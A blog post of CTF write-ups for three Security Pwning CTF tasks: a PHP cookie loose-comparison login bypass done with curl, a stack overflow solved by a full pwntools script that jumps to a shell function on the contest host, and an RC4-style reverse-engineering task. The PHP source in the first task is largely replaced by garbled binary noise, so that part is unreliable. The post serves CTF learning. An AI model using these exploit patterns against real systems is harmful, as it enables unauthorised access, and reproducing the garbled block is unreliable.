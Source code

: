 ```yaml
---
title: "Security Pwning CTF by p4 - cont"
date: 2016-11-27T08:39:57.000Z
tags:
  - "ctf"
feature_image: "content/images/2016/11/score_board.webp"
---
```


# Security Pwning CTF by p4 - cont

In the last post I've promised that I need to look a bit more into the Security Pwning CTF, here are a few more solutions to CTF by p4.

## web 100 - Bulletproof Login Server™

In this task we are give a part of the server code and a login panel that located under <https://monk.pwning2016.p4.team/login.php>
[code]
    ');

        if (isset($_COOKIE['remember_me'])) {
            echo('
[code]
    '.htmlentities(var_ex�
    �z��٥o��������Bo�>�P{w`^��X�1L�YYO��Z�)M�>��*����z�r4��9�����z0���m��ܵ������Z�
    -0�5(��o���i���p#74�pKLʒ�fj�J�b���AqF�];3y�-R�����;�x�H�HpQ�`d�ڧ��
    q�@C�����8
    �*��R�P<���X���E>Y@_(�;0�߷��}��#�H#�H��h�e]Њ��m��=r�K�i)�Ǝ�Ϡ�^J���c�7�c갚Q��Z�<�m�M��-&UwZ;��I�K
    T���;�f��9d��iFuo0���l��$�Q{�w>s��i�~�`����	Di+�\�}y"��vq���7]����F���+'7�i��&?��l���Ȑ��+���%���[�/�gnh�¸G�Ǆ�����.�d�PD��{�����y>�В�H"u�,|;1ן�*�A����d#�&S;%�4��ς�)�hL,�-d��n��4���b�9�;��q�/�g�D�N~�����}u�Q-G��Me���*eܙ@?(�e��G��bA��^ �ʅ��6,G-x���Ia��ɩv3]�{��*�P&ڐ��;E�2?f�9�'�ҩ�+��u���A�P�'���QEH��OJ����3�Vk�
    �
    qoIq�{���Du1��eZ)�w��P:h������@�J+�����Be��+�\����vy���d� T�Jş=X]N�U��������Ed���a����~�<@\���V�e�Y��ޕN-�-�o��͕�Q$�(�
    Rb���"�"+��>�����������<��ZYC�+�#*��x�氹:M��W��LY8c�vgˑ�"��`�E[R���x�����s�(��͈qV2�ۤ�p�t�K�7GMT%>���/�l^�,�P���@�:���T�>r�w>	�����N~!�b��� �݋}��9̷
    o���󮶭�3�J�s
    1��NcE�=���#�I_��T�F
    ;񢢤��-	m���U�՛�[D
    �w����{a�{x��tb,G�����~Pj��Jt`�S��%>l�����%������Q��J��"&Y;<�8NB����R�%����{������+��^��C����M������ )�Z�\;��4��;[��r�b�+�
    �X}H+8�b)���X��*��m�0�!�+����9cBJ�oW����,�}���VJ{�c����_c��v��-/USo���pQ��X��aj�l4脷�*�P��)ƹq(o*�dfR��Bv���z��@�6ܾ?��l��ZtۊǿG��I��o#�����QDY8�Wԗ��8�>:��yr��5Y�;�JɎ�T������3���fdAI�3n7���vԽ�ꓠg��I^#�ޘ}��iP�=j����n��W�[�Z���[v�T1q[�DS^�l�Y�C���\���C�LF��r80�?�N9_�Bz��.o�)
    �MP�4@���-J�/T�����������ýv�fJ<�jg ���3���z.v�d��ğ�[P��g!2ͤ�yQ3���������C������,x��pͫc~���
    �k���Bc��0����`���զ5C��l����.*�(���opGAB���m��<��Pl�ie�E�Q�b����ZGɒ�-��w�Oq�W��������y�M�N�CfB������e"�<(X�m�i@j%^��<$C��V4�! _}�����R����!mz]!��9������s�9߰,�}��8٣�!�����p�X�����4�5�p��|m�Z��}*�H�Vh��V
[/code]

by examine the code we can see that data that's being passed from a cookie is deserialized and is loosely compared with admin or demo user data. I think we can trick it to let us through. Let's use `curl` here.

`curl -v https://monk.pwning2016.p4.team/admin.php -b 'remember_me={"login":"admin", "token":0}'`

so we are passing some data in the cookie (`-b`) and the name will be `remember_me` and as the login we pass "admin" and as the token we are passing 0 as int. Since the loose comparison in PHP there will be a conversion of whatever is passed from `getAuthToken` to float and probably the conversion will fail (I assume the `getAuthToken` returns some kind of hash) and the `==` will evaluate to true and we will gain the access.

When we run our command we can see the flag in the output:

`pwn{unserialize.happens.to.be.ivul}`

## pwn 150 - Nawias musi się zgadzać

In this task we are given the [file](https://pwning2016.p4.team/downloads/pwn150.zip) and an address at which this program can be accessed `nc pwning2016.p4.team 1337`.

We load this program into r2.

![](content/images/2016/11/Zrzut-ekranu-2016-11-26-o-17.04.07.webp)

main is quit simple. Let's analyze `check_my_brackets`

It is a bit more complex but the most important bits are at the beginning

![](content/images/2016/11/Zrzut-ekranu-2016-11-26-o-17.05.25.webp)

Here

![](content/images/2016/11/Zrzut-ekranu-2016-11-26-o-17.06.29.webp)

and here

![](content/images/2016/11/Zrzut-ekranu-2016-11-26-o-17.06.44.webp)

Also by closer inspection of methods in the code we see this `shell_me` function.

![](content/images/2016/11/Zrzut-ekranu-2016-11-26-o-17.10.36.webp)

So to sum up:

  * there's a char buffer on stack and there's no check for valid range
  * the method check brackets and in case of "correct" expression being passed returns from it
  * in case of invalid one, text is printed inside and a call to `exit` is made

So if we want to exploit the buffer and run `shell_me` function we need to provide a "correct" expression

Ok. Time to for some python. For pwning we will use [pwntools](https://github.com/Gallopsled/pwntools). A library that makes exploitation easy. The nice feature is that you can easily switch from attacking a ELF file on your local machine to targeting over a socket.

But before that we need our payload:
`payload = ''.join("()"*62)+struct.pack("I",0x0)+"AAAAAAAA"+struct.pack("Q",0x00000000004005f6)`

What we are sending here? First the brackets - we fill he buffer. Next is the counter - we set it to zero so that we do not influence the counting mechanism. Then few chars and at the end we send the address of the return method. After that we call `interactive()` and if everything works we get the shell.

The full script
[code]
    #!/usr/bin/python

    from pwn import *
    import struct

    payload = ''.join("()"*62)

    def go(is_remote):
            global HOST
            global PORT
            if is_remote:
                    s = remote(HOST, PORT)
            else:
                    context.binary = ELF('./brackets')
                    s = process(context.binary.path)

            global payload

            payload = payload + struct.pack("I",0x0)+"AAAAAAAA"+struct.pack("Q",0x00000000004005f6)

            s.sendline(payload)

            s.interactive()

            s.close()

    HOST = 'pwning2016.p4.team'
    PORT = 1337
    go(True)
[/code]

![](content/images/2016/11/Zrzut-ekranu-2016-11-26-o-18.13.54.webp)

`pwn{b1n4ry_expl01t1ng}`

## re 100 - Rex

In this task we are again given with the binary that we load to IDA (free).

We quickly locate the 'check password' code and obtain the information that expected password is 26 characters long (`flag_len`)

![](content/images/2016/11/Zrzut-ekranu-2016-11-15-o-23.19.41.webp)

The main part of flag check is here:

![](content/images/2016/11/Zrzut-ekranu-2016-11-27-o-09.21.39.webp)

and here

![](content/images/2016/11/Zrzut-ekranu-2016-11-27-o-09.22.54.webp)

If we go into the `do_more_with_char` method we can see that it's generates some kind of values from which later we take the value at index of the input char and later we compare it with correct encoded flag:

`0x7e 0xe9 0xf3 0x71 0x80 ...`

We know that the flag should start with `pwn{` so we input it as a flag and in fact we get few first values to be `0x73 0xe9 pxf3 0x71`. What about the next ones?

We'll use `gdb`. Let's put a breakpoint on the line:

![](content/images/2016/11/Zrzut-ekranu-2016-11-27-o-09.32.34.webp)

then we search for the searched value in the memory

![](content/images/2016/11/Zrzut-ekranu-2016-11-27-o-09.35.16.webp)

and calculate the offset and the password char.

![](content/images/2016/11/Zrzut-ekranu-2016-11-27-o-09.36.29.webp)

in this case `r`. By doing this process few ;) more times (I guess it could be somehow automated?) we extract the whole flag.

Flag: `pwn{rc4_j3st_dl4_b13dnych}`

Ok so next 3 tasks from Security Pwning CTF done. What's left is crypto. I'll deal with them in the last post.
